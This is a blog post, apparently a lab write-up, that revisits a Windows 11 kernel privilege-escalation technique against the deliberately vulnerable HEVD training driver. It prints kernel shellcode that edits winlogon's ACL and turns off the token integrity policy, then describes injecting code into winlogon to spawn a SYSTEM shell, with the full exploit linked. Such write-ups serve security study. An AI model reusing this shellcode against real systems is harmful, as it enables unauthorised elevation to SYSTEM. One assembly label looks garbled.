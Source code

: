 ```yaml
---
layout: default
title: "kernel_shellcode_acl_edit"
date: 2024-11-14 21:00:00 -0000
categories: posts
---
```


# Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit

## Introduction

This post revisits the ACL kernel shellcode technique demonstrated in [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2) using HackSys Extreme Vulnerable Driver (HEVD), but updated for Windows 11. It makes use of the stack buffer overflow to modify the ACL of the winlogon process, and then spawns an elevated command prompt by injecting shellcode into the winlogon process.

## Background

The original technique involves changing the ACE of the SYSTEM entry, for the winlogon process, so that its SID matches that of the Authenticated Users group. In addition, the current process token mandatory integrity policy is changed to `TOKEN_MANDATORY_POLICY_OFF`. This is to allow the current process to get a handle to the winlogon process and create a remote thread to spawn an elevated command prompt.

The mandatory policies can be found at [https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy).

In what follows, this post will demonstrate the technique on Windows 11, version 23H2, along with full exploit code, from triggering the overflow to spawning the elevated command prompt. SMEP/KPTI are disabled.

```bash
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22631 N/A Build 22631
OS Manufacturer:           Microsoft Corporation
```

## Technical Implementation 

The exploit follows these steps:

1. Obtain handle to the vulnerable driver
2. Trigger buffer overflow to execute kernel shellcode
3. Craft shellcode that:
   - Locates winlogon process in kernel memory
   - Modifies ACL entries to grant access to the Authenticated Users group
4. Inject shellcode into winlogon process to spawn elevated command prompt

The initial HEVD exploitation is well documented and triggering the buffer overflow can be found in many other posts.

For the remainder, it can be found that the original blog post analysis still holds on Windows 11.

Following the original blog post, the security descriptor of the winlogon process can still be found at the same offsets,

```bash
0: kd> !process 0 0 winlogon.exe
PROCESS ffffe481acef1080
    SessionId: 1  Cid: 02d8    Peb: 7bab37d000  ParentCid: 026c
    DirBase: 10da60000  ObjectTable: ffff8081a273d080  HandleCount: 280.
    Image: winlogon.exe
```

And getting the security descriptor offset from the object header at EPROCESS-0x30,

```bash
0: kd> dt nt!_OBJECT_HEADER ffffe481acef1080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffff8081`9fc5adaf Void
```

The security descriptor is found at EPROCESS-0x30+0x28 but its lower 4 bits are a fast reference, so they must be masked off,

```bash
0: kd> !sd 0xffff8081`9fc5ada0
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-18

->Dacl    : ->Ace[1]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[1]: ->AceFlags: 0x0
->Dacl    : ->Ace[1]: ->AceSize: 0x18
->Dacl    : ->Ace[1]: ->Mask : 0x00121411
->Dacl    : ->Ace[1]: ->SID: S-1-5-32-544

->Sacl    : 
->Sacl    : ->AclRevision: 0x2
->Sacl    : ->Sbz1       : 0x0
->Sacl    : ->AclSize    : 0x1c
->Sacl    : ->AceCount   : 0x1
->Sacl    : ->Sbz2       : 0x0
->Sacl    : ->Ace[0]: ->AceType: SYSTEM_MANDATORY_LABEL_ACE_TYPE
->Sacl    : ->Ace[0]: ->AceFlags: 0x0
->Sacl    : ->Ace[0]: ->AceSize: 0x14
->Sacl    : ->Ace[0]: ->Mask : 0x00000003
->Sacl    : ->Ace[0]: ->SID: S-1-16-16384
```

The ACEs are found at the same offsets as well. The remaining analysis of the mandatory integrity policy is the same as the original blog post.

## Code Walkthrough

The full exploit code can be found in [src/main.rs](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/src/main.rs).

The ACL edit shellcode can be found in [acl_edit.asm](https://github.com/glslang/win-kexp/blob/main/src/asm/acl_edit.asm).

The updated offsets used in the shellcode are,

```bash
KTHREAD_OFFSET        EQU 188h    ; Offset to current KTHREAD from GS
EPROCESS_OFFSET       EQU 0B8h    ; Offset to EPROCESS from KTHREAD
ACTIVEPROCESSLINKS    EQU 448h    ; Offset to ActiveProcessLinks
IMAGEFILENAME_OFFSET  EQU 5A8h    ; Offset to ImageFileName
TOKEN_OFFSET          EQU 4b8h    ; Offset to process token
```

Then it proceeds to find the winlogon process,

```
    mov rax,gs:[rax+KTHREAD_OFFSET]    ; Get current KTHREAD
    mov rax,[rax+EPROCESS_OFFSET]      ; Get current EPROCESS
    mov rcx,rax
__loop:
    mov rax,[rax+ACTIVEPROCESSLINKS]                        ; Get next process
    sub rax,ACTIVEPROCESSLINKS                              ; Adjust to get EPROCESS base
    cmp dword ptr [rax+IMAGEFILENAME_OFFSET],6c6e6977h      ; Compare ImageFileName
    jnz __loopbash
```

RAX now points to the winlogon process EPROCESS, and RCX contains the current EPROCESS.

```bash
    sub rax,30h
    add rax,28h
```

The offset to the object header is found by subtracting 0x30 and then the security descriptor is found by adding 0x28 from the EPROCESS base. The two instructions are for clarity of the explanation.

The next step is to modify the ACL entries,

``` bash
    mov rax, qword ptr [rax]
    and rax,0FFFFFFFFFFFFFFF0h
    add rax,48h
    mov byte ptr [rax],0bh
```

RAX is dereferenced and the security descriptor is masked off. Adding 0x48 to the address gets to the first ACE and the byte at that location is modified to 11 (0x0B), which is the 18 (0x12) for the SYSTEM ACE.

The remaining shellcode is for setting the mandatory integrity policy,

``` bash
    mov rdx, qword ptr [rcx+TOKEN_OFFSET]
    and rdx,0FFFFFFFFFFFFFFF0h
    add rdx,0d4h
    mov byte ptr [rdx],0
```

RDX is set to the token address and masked off. Adding 0xd4 to the address gets to the mandatory integrity policy and the byte at that location is modified to 0, which is the `TOKEN_MANDATORY_POLICY_OFF` value.

The shellcode also contains an epilogue to restore the original stack and registers to safely return to the caller.

The remaining exploit code is for injecting the shellcode into the winlogon process and spawning the elevated command prompt. The injection is a standard injection. The handle to the victim process is returned, memory for the shellcode is allocated and written to the user space of the victim process, and then a remote thread is created to execute the shellcode.

These steps can be found at [src/process.rs#L112](https://github.com/glslang/win-kexp/blob/main/src/process.rs#L112).

Executing the exploit code and our elevated command prompt can be found below,

![Launching the elevated command prompt](/assets/images/acl_edit_system.png)

## Conclusion

This post revisits the ACL edit technique on Windows 11 and demonstrates the technique with full exploit code, with the expectation that the source code can be used to understand the technique and to better follow along with the original blog post.

## References

- [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2)
- [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
- [win-kexp](https://github.com/glslang/win-kexp)
